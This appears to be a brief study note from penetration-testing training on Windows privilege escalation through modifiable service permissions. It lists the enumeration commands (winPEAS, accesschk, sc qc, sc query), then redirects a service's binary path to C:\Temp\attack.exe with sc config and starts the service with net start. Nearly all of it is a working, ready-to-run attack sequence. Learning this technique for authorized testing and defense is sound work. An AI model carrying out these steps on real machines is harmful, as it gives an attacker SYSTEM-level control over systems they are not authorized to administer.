

Potential Rabbit Hole:
If you can cange a service configuration but can't stop/start the service, you may not be able to escalate privileges
Identification
./winPEASany.exe quite serviceinfo
[search]: Modifiable Services
<get service name>
re-check
.\accesschk.exe /accepteula -uwcqv user <service name>

check the configuration
sc qc <service name>

check the status
sc query <service name>
update the config
sc config <servicename> binpath= "\"C:\Temp\attack.exe\""
start service
net start <service name>